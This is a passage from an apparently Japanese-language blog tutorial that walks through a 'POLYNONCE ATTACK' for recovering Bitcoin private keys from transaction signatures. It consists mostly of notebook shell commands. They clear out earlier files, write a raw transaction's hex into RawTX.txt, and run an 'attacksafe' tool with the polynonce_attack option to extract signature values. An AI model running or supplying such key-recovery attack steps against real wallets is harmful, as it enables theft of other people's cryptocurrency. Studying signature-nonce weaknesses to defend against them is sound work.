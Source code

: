 
<blockquote class="wp-block-quote">
<p>2 番目の例からファイルを削除しましょう。</p>
</blockquote>



<pre class="wp-block-code"><code>!rm RawTX.txt
!rm NoncesHEX.txt
!rm PrivateKey.txt
!rm SignatureRSZ.csv
!rm PrivateKeyAddr.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/04/image-158.png" alt="POLYNONCE ATTACK は、BITCOIN 署名を 128 ビットの任意の高乗の多項式として使用して、秘密キーを取得します。" class="wp-image-3030"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<blockquote class="wp-block-quote">
<p><em></em><code>HEX</code><em>ユーティリティを使用して -data を&nbsp;</em><em>ロードし&nbsp;</em><code>echo</code><em>&nbsp;、ファイル&nbsp;</em><strong>RawTX.txtに保存します。</strong></p>
</blockquote>



<pre class="wp-block-code"><code>!echo '01000000016eb80d35b08164302e49f88d8f86bf2827a91a5650149be38f4f73751ff41437060000006a473044022043d4c025a0f3be366a0d768c721b9b9191e0c3db6f2c6bfe34e8fb24af7f379102205a4fe2cc6944e00309c35619ff1242301b84d4728b863f97326f56dbd7a782220121027ccccf5f56ed78c2a761721ff3da0f76b792fbe4eae2ac73e7b4651bc3ef19cdffffffff01c057010000000000232103bec42e5d718b0e5b3853243c9bcf00dd671a335b0eb99fd8ca32f8d5784a9476ac00000000' &gt; RawTX.txt
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/04/image-124-1024x468.png" alt="POLYNONCE ATTACK は、BITCOIN 署名を 128 ビットの任意の高乗の多項式として使用して、秘密キーを取得します。" class="wp-image-2889"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2 class="wp-block-heading"><code>-tool polynonce_attack</code>&nbsp;ソフトウェアを使用して&nbsp;起動する&nbsp;<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>!./attacksafe -tool polynonce_attack -open RawTX.txt -save SignatureRSZ.csv</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/04/image-125-1024x252.png" alt="POLYNONCE ATTACK は、BITCOIN 署名を 128 ビットの任意の高乗の多項式として使用して、秘密キーを取得します。" class="wp-image-2890"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>
